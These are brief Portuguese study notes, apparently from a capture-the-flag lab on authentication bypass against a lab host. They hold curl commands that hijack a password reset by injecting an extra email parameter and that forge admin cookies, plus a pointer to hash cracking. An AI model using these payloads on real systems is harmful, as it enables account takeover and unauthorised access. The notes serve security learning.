

curl

preencher formularios 

```
curl 'http://10.10.193.74/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
```

cookie monster

```
curl -H "Cookie: logged_in=true; admin=true" http://10.10.193.74/cookie-test
```

na maioria das x os cookies sofrem hashing ou enconding em base32,64:



https://crackstation.net/